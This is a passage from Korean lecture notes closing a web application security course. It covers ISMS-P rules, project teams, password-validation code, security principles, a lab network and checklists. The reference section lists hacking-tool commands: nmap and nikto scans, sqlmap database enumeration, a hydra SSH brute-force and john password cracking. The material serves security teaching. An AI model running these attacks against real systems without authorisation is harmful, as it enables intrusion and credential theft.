
    style A1 fill:#ffe6e6
    style B1 fill:#ffe6e6
    style C1 fill:#ffe6e6
    style D1 fill:#ffe6e6
    style E1 fill:#ffe6e6
```

#### ISMS-P 인증 필수 대상

- 전년도 매출 100억 원 이상 정보통신서비스 제공자
- 전년도 직전 3개월간 일일 평균 이용자 100만 명 이상
- 의료법에 따른 의료기관

---

## 모듈 프로젝트 개요

### 1. 모듈 프로젝트 목적

```mermaid
graph TD
    A[모듈 프로젝트] --> B[목적 1:<br/>웹 애플리케이션 보안<br/>학습 내용 적용]
    A --> C[목적 2:<br/>최종 프로젝트에서<br/>재사용 가능한 모듈]

    B --> D[공격 시나리오]
    B --> E[방어 기법]
    B --> F[취약점 진단]

    C --> G[관제팀]
    C --> H[모의해킹팀]
    C --> I[컨설팅팀]
    C --> J[취약점 진단팀]

    style A fill:#e6f3ff
    style B fill:#ffffcc
    style C fill:#ccffff
```

### 2. 권장 기술 스택

| 구분 | 권장 기술 | 이유 |
|-----|---------|------|
| **백엔드** | Java (JSP) 또는 Python (Flask/Django) | 과정에서 학습한 언어 |
| **프런트엔드** | HTML/CSS/JavaScript | 기본 웹 기술 |
| **데이터베이스** | MySQL/MariaDB | 실습에서 사용 |
| **웹서버** | Nginx | 가볍고 설정 간단 |

> **⚠️ 주의**: 최신 프레임워크(Spring Boot, Django 등)는 보안 기능이 기본 내장되어 있어 취약점 재현이 어려움. 가급적 네이티브 방식 권장.

---

### 3. 프로젝트 팀 구성

#### 전체 팀 (총 5팀)

1. **관제팀 A** - 네트워크 트래픽 모니터링, IDS/IPS
2. **관제팀 B** - 로그 분석, SIEM 구축
3. **모의해킹팀** - 공격 시나리오, 침투 테스트
4. **컨설팅팀** - 보안 정책, ISMS-P 준수
5. **취약점 진단팀** - 자동화 스캐닝, 수동 진단

#### 팀별 주요 산출물

| 팀 | 산출물 예시 |
|---|----------|
| **관제** | 실시간 대시보드, 이상 탐지 시스템 |
| **모의해킹** | 공격 시나리오 문서, PoC 코드 |
| **컨설팅** | 보안 정책 문서, 체크리스트 |
| **진단** | 취약점 진단 도구, 보고서 자동화 |

---

### 4. 주요 정보통신 기반시설 취약점 진단 항목

#### 1순위: 안전한 패스워드 관리

```python
# 취약한 코드
password = request.form['password']
if len(password) < 8:
    return "비밀번호가 너무 짧습니다"

# 안전한 코드
import re

def validate_password(password):
    if len(password) < 10:
        return False, "최소 10자 이상"

    if not re.search(r'[A-Z]', password):
        return False, "대문자 포함 필요"

    if not re.search(r'[a-z]', password):
        return False, "소문자 포함 필요"

    if not re.search(r'\d', password):
        return False, "숫자 포함 필요"

    if not re.search(r'[!@#$%^&*]', password):
        return False, "특수문자 포함 필요"

    return True, "안전한 비밀번호"
```

#### 패스워드 정책 기준

| 구분 | 요구사항 |
|-----|---------|
| **A등급** | 3종류 이상 문자 + 8자리 이상 |
| **AA등급** | 2종류 이상 문자 + 10자리 이상 |
| **AAA등급** | 4종류 문자 + 12자리 이상 + 주기적 변경 |

---

## 강의 총정리

### 1. 학습한 주요 내용

```mermaid
mindmap
  root((웹 애플리케이션<br/>보안))
    공격 기법
      SQL Injection
      XSS
      CSRF
      세션 탈취
      Command Injection
    방어 기법
      Prepared Statement
      입력 검증
      출력 인코딩
      HTTP-Only 쿠키
    해킹 도구
      SQLMap
      Nmap
      Nikto
      Hydra
      John the Ripper
    보안 설정
      Nginx
      Apache
      방화벽
      로그 분석
```

---

### 2. 핵심 보안 원칙 (Top 10)

1. **✅ 절대 사용자 입력을 신뢰하지 마라**
   - 모든 입력은 검증 필요

2. **✅ Prepared Statement를 사용하라**
   - SQL Injection 완벽 차단

3. **✅ 출력 시 항상 인코딩하라**
   - XSS 방어의 핵심

4. **✅ HTTP-Only, Secure, SameSite 쿠키 사용**
   - 세션 탈취 방어

5. **✅ 최소 권한 원칙 (Principle of Least Privilege)**
   - 필요한 만큼만 권한 부여

6. **✅ 화이트리스트 방식 사용**
   - 블랙리스트는 우회 가능

7. **✅ 다층 방어 (Defense in Depth)**
   - 한 계층 뚫려도 다음 계층이 방어

8. **✅ 정기적인 보안 업데이트**
   - 제로데이 취약점 대응

9. **✅ 로그 모니터링 및 분석**
   - 공격 조기 탐지

10. **✅ 보안은 개발 초기부터 (Security by Design)**
    - 나중에 추가하면 비용 100배

---

### 3. 실습 환경 요약

```
┌─────────────────────────────────────────────┐
│           VMware 가상환경                    │
├─────────────────────────────────────────────┤
│  웹 서버 (192.168.186.131)                   │
│  - Nginx                                    │
│  - Ubuntu 22.04                             │
│  - 2GB RAM                                  │
├─────────────────────────────────────────────┤
│  WAS 서버 (192.168.186.132)                  │
│  - Tomcat 10                                │
│  - JSP 애플리케이션                          │
│  - 2GB RAM                                  │
├─────────────────────────────────────────────┤
│  DB 서버 (192.168.186.135)                   │
│  - MySQL/MariaDB                            │
│  - 2GB RAM                                  │
├─────────────────────────────────────────────┤
│  해커 서버 (192.168.186.133)                 │
│  - Kali Linux 권장                          │
│  - 해킹 도구 집합                            │
│  - 2GB RAM                                  │
└─────────────────────────────────────────────┘
```

---

### 4. 추천 학습 자료

#### 웹 보안 실습 사이트

| 사이트 | URL | 난이도 | 설명 |
|-------|-----|-------|------|
| **WebGoat** | https://owasp.org/www-project-webgoat/ | 초급 | OWASP 공식 학습 플랫폼 |
| **bWAPP** | http://www.ibilik.com/bwapp/ | 중급 | 100+ 취약점 |
| **DVWA** | https://dvwa.co.uk/ | 초급 | 간단한 취약점 실습 |
| **Juice Shop** | https://owasp.org/www-project-juice-shop/ | 중급 | 현대적 웹 앱 |

#### 보안 뉴스 사이트

- **보안뉴스**: https://www.boannews.com
- **데일리시큐**: https://www.dailysecu.com
- **PoC or GTFO**: 실제 PoC 코드 공유
- **Exploit-DB**: https://www.exploit-db.com

---

### 5. 최종 점검 사항

#### 모듈 프로젝트 전 체크리스트

- [ ] 팀 구성 완료
- [ ] 역할 분담 명확화
- [ ] 개발 환경 구축 (VM, 도구 설치)
- [ ] 프로젝트 주제 선정
- [ ] 최근 보안 사고 사례 조사
- [ ] 공격 시나리오 초안 작성
- [ ] 사용할 기술 스택 결정
- [ ] 멘토링 일정 확인

---

## 마무리 메시지

> **🎓 강사의 말**
>
> 7일간의 웹 애플리케이션 보안 과정이 끝났습니다. 여러분은 이제:
>
> - ✅ 대표적인 웹 취약점 공격/방어 방법을 알게 되었습니다
> - ✅ 실전 해킹 도구를 다룰 수 있게 되었습니다
> - ✅ 보안 정책 수립의 필요성을 이해했습니다
> - ✅ 로그 분석 및 모니터링 능력을 갖추었습니다
>
> **중요한 것은 "공격자의 관점"과 "방어자의 관점" 모두를 이해하는 것입니다.**
>
> 앞으로의 모듈 프로젝트와 최종 프로젝트에서 이 지식을 활용하여
> 실무에서 바로 쓸 수 있는 역량을 키우시기 바랍니다.
>
> **보안은 한 번의 설정이 아니라 지속적인 프로세스입니다.**

---

## 참고 자료

### 1. 명령어 요약

```bash
# Nginx
sudo systemctl restart nginx
sudo nginx -t

# Apache
sudo systemctl restart apache2
sudo apachectl configtest

# 로그 모니터링
tail -f /var/log/nginx/access.log
tail -f /var/log/apache2/error.log

# 해킹 도구
nmap -sS -sV <IP>
nikto -h http://<IP>
sqlmap -u "http://<IP>/login.jsp" --forms --batch --dbs
hydra -l <user> -P <wordlist> ssh://<IP>
john --wordlist=<wordlist> <hash_file>
```

### 2. 유용한 정규 표현식

```python
# 이메일 검증
r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'

# 비밀번호 (대소문자+숫자+특수문자, 8자 이상)
r'^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]{8,}$'

# URL 검증
r'^https?://[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}(/.*)?$'

# IP 주소 검증
r'^(\d{1,3}\.){3}\d{1,3}$'
```

### 3. 보안 체크리스트

#### 웹 애플리케이션

- [ ] Prepared Statement 사용
- [ ] 입력 검증 (화이트리스트)
- [ ] 출력 인코딩 (HTML, JavaScript, SQL)
- [ ] HTTP-Only, Secure 쿠키
- [ ] HTTPS 사용
- [ ] CSRF 토큰
- [ ] 파일 업로드 검증
- [ ] 에러 메시지 최소화

#### 서버 설정

- [ ] 디렉터리 리스팅 비활성화
- [ ] 불필요한 메소드 차단 (DELETE, PUT, TRACE)
- [ ] 서버 버전 정보 숨김
- [ ] 방화벽 설정
- [ ] Fail2Ban 설치
- [ ] 정기 보안 업데이트

---

**수고하셨습니다! 🎉**

다음 과정인 **모듈 프로젝트**에서 만나요! 💪

---

*본 강의 자료는 웹 애플리케이션 보안 7일 집중 과정의 마지막 섹션입니다.*

*© 2025 Web Application Security Course*
